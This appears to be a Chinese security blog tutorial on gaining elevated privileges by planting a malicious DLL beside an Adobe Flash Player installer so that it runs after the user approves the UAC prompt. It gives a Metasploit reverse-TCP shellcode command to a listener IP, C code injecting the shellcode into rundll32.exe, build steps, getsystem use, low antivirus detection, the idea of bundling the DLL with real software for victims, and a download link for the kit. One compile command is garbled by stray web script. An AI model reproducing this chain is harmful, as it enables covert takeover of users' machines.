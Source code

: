 # 借用UAC完成的提权思路分享

0x00 背景
=====

UAC(User Account Control，用户帐户控制)是微软为提高系统安全而在Windows Vista中引入的新技术，它要求用户在执行可能会影响计算机运行的操作或执行更改影响其他用户的设置的操作之前，提供权限或管理员‌密码。也就是说一旦用户允许启动的应用程序通过UAC验证，那么这个程序也就有了管理员权限。如果我们通过某种方式劫持了通过用户UAC验证的程序，那么相应的我们的程序也就实现了提权的过程。

0x01 提权过程概述
=====

首先我们找到目标程序，查找其动态加载的dll文件然后将其替换掉，插入我们包含shellcode的dll文件，这样用户在安装此文件的时候就会调用我们的dll文件，并执行我们的shellcode代码。同时为了防止程序崩掉导致我们的代码退出，采用注入的方式保证shellcode的稳定执行。在此过程中，如果目标程序请求UAC权限，对于用户来说这是一个正常的安装文件，一旦通过UAC验证，相应我们的shellcode也完成了提权过程。替换安装包dll文件这种行为太过于敏感，其实最后实现的方式是找到目标程序需要加载的，并且当前目录又不存在的需要联网下载的dll文件，我们只需要在该目录下放一个同名dll文件即可。

0x02 实验环境
=====

_Kali Debian7_

Kali集成Metasploit等漏洞利用工具，方便提取shellcode和反弹TCP连接。最好安装一个Mingw-w64用于编译c代码。

_windows7 x64_

主要的目标测试环境。

_Procmon.exe_

Procmon是微软出的一款强大的Windows监视工具，不但可以监视进程/线程，还可以监控到文件系统，注册表的变化等。

_install_flashplayer15x32_mssd_aaa_aih_

这里我们以flashplayer安装文件作为目标文件，版本为15x32_mssd_aaa_aih，可自行下载，或者从最后的打包附件中找到。

0x03 详细提权过程
=====

查找可劫持的dll文件
-----------

首先我们在win7系统下先打开procmon监控软件，清除一下日志信息，然后运行我们的目标文件install_flashplayer15x32_mssd_aaa_aih，运行过后会弹出UAC选项，需要用户确认授权。

![](http://drops.javaweb.org/uploads/images/98195250933deae6961c4786b46017f2961837c1.jpg)

这里我们点“是”，然后安装包开始安装并自删除，并从服务器下载所需的文件，这时候就可以关掉了，因为我们只需要看该软件包都加载了哪些dll文件。

看下Procmon.exe记录所有行为

![](http://drops.javaweb.org/uploads/images/b1e26dbdc9c05efbe99de7736e689f18bdb77d33.jpg)

信息量太大，我们需要过滤出有用的信息。

首先是只看我们目标进程的信息，添加过滤规则：

`Process Name is install_flashplayer15x32_mssd_aaa_aih`

然后是过滤掉加载系统的dll文件，只看安装包当前目录下加载的dll文件，我这里安装包存放在dllhijack文件夹下，添加过滤规则：

`Path contains dllhijack`

并且该加载dll不存在，需要联网从服务器下载，最后再添加一个过滤规则：

`Result is NAME NOT FOUND`

三个过滤规则如下所示：

![](http://drops.javaweb.org/uploads/images/0dcaafed06ff9a08758b79d05d1a22139248fafe.jpg)

经过三个规则过滤后，留下的信息就很明显了，如下图所示：

![](http://drops.javaweb.org/uploads/images/1ff14e18f661c0b7407ae8ba057eb9705cba88dc.jpg)

上边所列的dll文件都是会尝试加载，并且找不到，会联网进行下载的dll文件，因此，我们的目标就是劫持这些dll文件，也不需要替换，直接将我们的dll文件放在安装包同目录即可，这也是为什么选择这个安装程序测试的原因。如果选择其他安装包测试的，最好也是选择这种联网安装类型的，所有文件都从服务器拉取，如果安装程序没有对这些从服务器拉取的文件进行效验，就能够被劫持。

编写exploit
---------

找到劫持了dll文件后，我们进入Debian系统用msf生成shellcode，这里我们选择反弹tcp的shellcode，需要知道服务器ip地址和监听端口，这里也选择Debian系统作为服务器，ifconfig查看下ip，设置监听端口为9000，最后执行如下命令生成shellcode:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.127.133 LPORT=9000 -f c`

![](http://drops.javaweb.org/uploads/images/79ac5ae7745e593f32bddd02ecf942016e184a1c.jpg)

为了防止程序挂掉或者退出导致shellcode也跟着退出，采用注入的方式，将shellcode注入rundll32.exe进程，然后连接远程端口。服务器监听该端口，一旦有请求就建立会话连接，注入关键代码：

```
if (CreateProcess(0, "rundll32.exe", 0, 0, 0, CREATE_SUSPENDED | IDLE_PRIORITY_CLASS, 0, 0, &si, &pi)) {
    ctx.ContextFlags = CONTEXT_INTEGER | CONTEXT_CONTROL;
    GetThreadContext(pi.hThread, &ctx);    

    ep = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, SCSIZE, MEM_COMMIT, PAGE_EXECUTE_READWRITE);    

    WriteProcessMemory(pi.hProcess, (PVOID)ep, &code, SCSIZE, 0);    

    #ifdef _WIN64
            ctx.Rip = (DWORD64)ep;
    #else
            ctx.Eip = (DWORD)ep;
    #endif    

    SetThreadContext(pi.hThread, &ctx);    

    ResumeThread(pi.hThread);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
}

```

最后将程序编译，这里编译直接在Debian系统下用Mingw-w64编译，命令入下：

```
root@idhyt:[email protected]/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-cfhash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-cfemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */shared
root@idhyt:~/maldemo# file template.dll
template.dll: PE32 executable (DLL) (console) Intel 80386, for MS Windows

```

将编译好的template.dll拷贝到win7系统中备用。

debian系统设置服务器并监听9000端口，所有命令如下：

![](http://drops.javaweb.org/uploads/images/df5a3604c622c8d202f6007a0ba2e61c2c21e137.jpg)

提权
--

将编译的template.dll文件放在install_flashplayer15x32_mssd_aaa_aih目录下，从我们监控到的可劫持dll文件中选择一个，这里我选择dhcpcsv6.dll。将我们的dll文件改名为dhcpcsvc6.dll，其他dll文件可自行尝试。之后重新运行安装包，弹出UAC选项后点“是”。

之后我们在debian系统的服务端会看到我们已经监听到了这个端口，看下会话信息：

![](http://drops.javaweb.org/uploads/images/2393dd3440421c7abbef5d0f6ee243045f47b376.jpg)

查看下当前uid，然后执行getsystem命令权限：

![](http://drops.javaweb.org/uploads/images/3be8b27924e9772ee20119e854ff6eac53b5eb9a.jpg)

可以看到已经提权成功，然后进入shell查看下文件，运行个计算器什么的

![](http://drops.javaweb.org/uploads/images/7e6edb11159ae4a760ef73fff6252384915f97a3.jpg)

0x04 总结
=====

UAC很大程度上减少PC受到恶意软件侵害的机会，但是并不表明是不可被利用的。通过这种dll劫持方式，可以将dll文件设置为隐藏，并将正常的软件(如adobe flash player)打包给用户，用户基本是察觉不到的，一旦用户正常安装，机器就会被攻击者控制。一些病毒通过劫持lpk.dll等系统dll文件造成的病毒体执行，也是利用这种思路，但是替换系统文件这种敏感操作，基本逃不过杀软的监控了。

各杀软厂商对shellcode这种检测和防御也不够严格，直接从msf中提取的shellcode，没做任何变形和过杀软处理，然后virustotal网站上扫描结果如下：

![](http://drops.javaweb.org/uploads/images/4c4874d416e1f66fcb89042f509135d2c342ac4c.jpg)

可以看出总共用了56中杀毒软件扫描，报毒的只有16个，然后看下国内的杀软：

![](http://drops.javaweb.org/uploads/images/7e5e7774b722962fdb881c9e62d00aac1c0a6461.jpg)

国内杀软全都没有报毒，所以通过dll劫持提权还是有很大的使用空间。   代码和安装包上传百度网盘：链接:[http://pan.baidu.com/s/1ntAbfQD](http://pan.baidu.com/s/1ntAbfQD)密码: rmsq 解压码：ks123456